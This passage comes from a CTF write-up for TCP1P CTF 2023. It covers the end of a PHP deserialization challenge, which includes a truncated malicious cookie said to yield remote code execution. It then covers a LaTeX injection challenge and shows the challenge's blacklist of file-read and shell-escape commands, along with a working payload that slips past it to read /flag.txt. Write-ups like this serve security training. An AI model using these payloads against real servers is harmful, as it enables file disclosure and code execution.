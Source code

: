 Generate the serialized cookie, and set to website's cookie **cookie=TzoxNzoiR2FkZ2V0VHdvXEVjaG9...**, refresh page and got RCE!.

![Flag](/assets/img/TCP1P-CTF-2023/images/TCP1PCTF2023_UnSecure1.png)

**Flag:** TCP1P{unserialize in php go brrrrrrrr ouch}

### **Latex - Web**

**Challenge Description:**\
`My first LaTeX website for my math teacher.`
`I hope this will become the best gift for him! :)`\
`http://ctf.tcp1p.com:52132`\
`Author: Dimas`

**Analysis:**\
Latex is vulnerable to injection, but there's a blacklist of LaTeX commands like the ones below. Here, you can bypass it using \newtoks, which is used for token register. Then, you simply assign a value to that registered token. I have worked on this Latex problem before on the Hackthebox machine Topology and the UMDCTF 2023 Homework challenge. By the way, I forgot where I got this payload from, and I saved it for future needs. Respect to whoever created this payload before.\

**Main.go - Blacklisted Command:**

```go
var (
	//go:embed static/*
	static    embed.FS
	blacklist = []string{"\\input", "include", "newread", "openin", "file", "read", "closein",
		"usepackage", "fileline", "verbatiminput", "url", "href", "text", "write",
		"newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics",
		"openout", "newcommand", "expandafter", "csname", "endcsname", "^^"}
)
```

**Solver:**

```text
\documentclass{article}
\RequirePackage{verbatim}
\begin{document}
\newtoks\in
\newtoks\put
\in={in}
\put={put}

\begin{verbatim\the\in\the\put}{/flag.txt}\end{verbatim\the\in\the\put}
\end{document}
```

